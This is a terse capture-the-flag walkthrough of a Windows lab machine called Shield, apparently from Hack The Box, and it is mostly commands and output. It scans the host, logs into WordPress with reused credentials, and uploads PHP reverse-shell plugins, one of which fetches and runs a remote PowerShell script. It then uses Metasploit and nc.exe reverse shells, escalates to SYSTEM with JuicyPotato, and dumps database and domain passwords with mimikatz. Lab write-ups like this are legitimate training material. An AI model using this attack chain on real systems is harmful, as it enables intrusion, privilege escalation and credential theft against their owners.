 `sudo nmap -p- --min-rate=1000 -sS -A -T4 10.10.10.29`  
PORT     STATE SERVICE VERSION  
80/tcp   open  http    Microsoft IIS httpd 10.0  
| http-methods:  
|_  Potentially risky methods: TRACE  
|_http-server-header: Microsoft-IIS/10.0  
|_http-title: IIS Windows Server  
3306/tcp open  mysql   MySQL (unauthorized)  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose  
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (90%)  
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2  
Aggressive OS guesses: Microsoft Windows Server 2016 (90%), Microsoft Windows Server 2012 or Windows Server  2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)  

80 -- IIS
3306 -- MySQL

`mysql -h10.10.10.29`
ERROR 1130 (HY000): Host '10.10.14.74' is not allowed to connect to this MySQL server
Mysql does nol like me

`python3 dirsearch.py -u 10.10.10.29 -E`  
[16:08:35] Starting:  
[16:09:13] 403 -  312B  - /%2e%2e/google.com                                      
[16:11:39] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/   

More
`python3 dirsearch.py -u http://10.10.10.29/wordpress/ -E`  
Target: http://10.10.10.29/wordpress/

[16:19:39] Starting:  
[16:21:35] 301 -    0B  - /wordpress/index.php  ->  http://10.10.10.29/wordpress/                                 
[16:21:42] 200 -   19KB - /wordpress/license.txt                                                        
[16:22:21] 200 -    7KB - /wordpress/readme.html                                               
[16:23:00] 301 -  161B  - /wordpress/wp-admin  ->  http://10.10.10.29/wordpress/wp-admin/                         
[16:23:00] 500 -    3KB - /wordpress/wp-admin/setup-config.php
[16:23:01] 301 -  163B  - /wordpress/wp-content  ->  http://10.10.10.29/wordpress/wp-content/  
[16:23:01] 200 -    0B  - /wordpress/wp-content/  
[16:23:02] 200 -    1KB - /wordpress/wp-admin/install.php        
[16:23:02] 403 -    1KB - /wordpress/wp-content/uploads/                      
[16:23:02] 302 -    0B  - /wordpress/wp-admin/  ->  http://10.10.10.29/wordpress/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&reauth=1  
[16:23:02] 200 -    0B  - /wordpress/wp-config.php           
[16:23:02] 301 -  164B  - /wordpress/wp-includes  ->  http://10.10.10.29/wordpress/wp-includes/  
[16:23:02] 500 -    0B  - /wordpress/wp-includes/rss-functions.php  
[16:23:02] 403 -    1KB - /wordpress/wp-includes/  
[16:23:04] 200 -    3KB - /wordpress/wp-login.php   
[16:23:05] 405 -   42B  - /wordpress/xmlrpc.php     

Burpburpburp  

No SQLi on public search fields    
Well, that is lame... wp content admin is admin:P@s5w0rd! as on previous machine

can uppload plugins right to the admin panel
It does not work by some reason

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```

Ohhh, come on! That is a windows machine...  

```
<?php  

/**  
* Plugin Name: Link Beautify  
* Plugin URI: linkbeautify.org   
* Description: Make Links Beautiful  
* Version: 1.442  
* Author: John Smith  
* Author URI: linkbeautify.org   
*/  

echo shell_exec('powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.42/rs.ps1\");');
?>  
```

`sudo python3 -m http.server 80`  

and regular powershell payload  

`whoami`  
nt authority\iusr  

`hostname`   
Shield  

Let's try escalate   
http://www.fuzzysecurity.com/tutorials/16.html   

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`  
OS Name:                   Microsoft Windows Server 2016 Standard  
OS Version:                10.0.14393 N/A Build 14393  

`net users`

User accounts for   

Administrator            DefaultAccount           Guest                    
The command completed with one or more errors.   

`ipconfig /all`  
blahblahblah  

`route print`  
blahblahblah  

`cat wp-settings.php`  
define('DB_NAME', 'wordpress124');  

/** MySQL database username */  
define('DB_USER', 'wordpressuser124');  

/** MySQL database password */  
define('DB_PASSWORD', 'P_-U9dA6q.B|');  

/** MySQL hostname */   
define('DB_HOST', 'localhost');  

Lets try some metasploit  
``` 
msfvenom --list payloads
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.42 lport=4444 -f raw
msfconsole
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.42
set lport 4444
use exploit/multi/handler
run
```

inside of powershell  
`Get-ExecutionPolicy`  
RemoteSigned  
`whoami /priv`   

SeChangeNotifyPrivilege Bypass traverse checking                  Enabled  
SeImpersonatePrivilege  Impersonate a client after authentication Enabled  
SeCreateGlobalPrivilege Create global objects                     Enabled  



OK I gave up. Lets see what is on the walkthrough.  
https://github.com/ohpe/juicy-potato  


```
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```
Auto wp-admin connect+upload+revshell  

`meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads`  
`meterpreter > upload nc.exe`  
`nc -lvp 1234`  
`meterpreter > execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"`  
Actual cmd revshell  

Uppload cve  
`meterpreter > upload JuicyPotato.exe`  
`echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat`  
This will create a batch file to run a cve.exe and to establish the new admin revshell  
`nc -lvp 1111`  
when it is connected to the local machine 1111 port   
`js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`  
In the new shell  
`whoami`  
nt authority\system   
`cat root.txt`  
6e9a9fdc6f64e410a68b847bb4b404fa  

Some postex  
`msf > upload mimikatz.exe`  
`./mimikatz.exe`  
sekurlsa::logonpasswords  

And we find the password `Password1234!` for domain user `Sandra`.  
